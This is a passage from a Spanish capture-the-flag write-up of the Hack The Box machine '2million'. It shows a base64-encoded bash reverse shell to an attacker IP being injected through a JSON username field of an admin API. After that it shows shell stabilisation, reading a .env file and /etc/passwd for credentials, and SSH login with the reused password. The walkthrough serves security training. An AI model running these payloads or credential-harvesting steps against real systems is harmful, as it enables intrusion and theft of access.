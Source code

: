 Lo generamos en Base64 para utilizarlo 
```bash 
$ echo 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1' | base64 ; echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzEyMzQgMD4mMQo=
```

En otra terminal iniciamos la escucha con Netcat
```bash 
$ nc -lvp 1234
```

Y lanzamos otra vez 

```bash 
$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=qhtpkbilmv3ps0tunk2oruq748" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzEyMzQgMD4mMQo= | base64 -d | bash;"}'

nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from 2million.htb [10.10.11.221] 46832
bash: cannot set terminal process group (1174): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 
```

Hacemos un tratamiento de nuestra nueva consola , para que se pueda trabajar mejor 
```bash 
$ script /dev/null -c bash #pseudo consola
$ (CTRL + Z)
$ stty raw -echo; fg
$ export TERM=xterm
$ export SHELL=bash # opcional

$ stty size
$ stty rows 53 columns 185
```

# Lateral Movement 

Enumerando el directorio web  vemos el archivo `.env`
```bash 
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Al parecer hay un usuario admin, verifiquemos en `/etc/passwd`
```bash 
www-data@2million:~/html$ cat /etc/passwd
...
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
```
Intentamos loguearnos mediante SSH con el usuario `admin` y el pass `SuperDuperPass123`
```bash 
$ ssh admin@2million.htb
You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```
